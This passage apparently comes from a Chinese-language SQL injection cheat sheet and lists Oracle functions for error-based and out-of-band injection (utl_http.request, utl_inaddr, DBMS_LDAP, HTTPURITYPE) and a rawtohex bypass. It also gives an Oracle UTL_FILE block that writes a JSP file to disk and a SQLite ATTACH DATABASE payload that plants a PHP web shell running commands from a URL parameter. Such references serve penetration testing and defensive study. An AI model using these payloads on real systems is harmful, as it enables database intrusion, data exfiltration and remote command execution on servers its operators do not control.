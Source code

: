   - XMLType

  - dbms_xdb_version.checkin

  - dbms_xdb_version.makeversioned

  - dbms_xdb_version.uncheckout

  - dbms_utility.sqlid_to_sqlhash

  - ordsys.ord_dicom.getmappingxpath

  - utl_inaddr.get_host_name

- ##### OOB

  - utl_inaddr.get_host_address
  - utl_http.request

  - utl_inaddr.get_host_address

  - SYS.DBMS_LDAP.INIT

  - HTTPURITYPE

  - HTTP_URITYPE.GETCLOB

- **绕过**

  - rawtohex

##### 写文件

```sql
create or replace directory TEST_DIR as '/path/to/dir';
grant read, write on directory TEST_DIR to system;
declare
isto_file utl_file.file_type;
begin
isto_file := utl_file.fopen('TEST_DIR', 'test.jsp', 'W');
utl_file.put_line(isto_file, '<% out.println("test"); %>');
utl_file.fflush(isto_file);
utl_file.fclose(isto_file);
end;
```

#### SQLite3 Payload

- ##### Comment（注释）

  -  \--
  -  /\*\*/

- ##### Version

  -   select sqlite_version();

Command Execution

```sql
ATTACH DATABASE '/var/www/lol.php' AS lol;
CREATE TABLE lol.pwn (dataz text);
INSERT INTO lol.pwn (dataz) VALUES ('<?system($_GET['cmd']); ?>');--
```
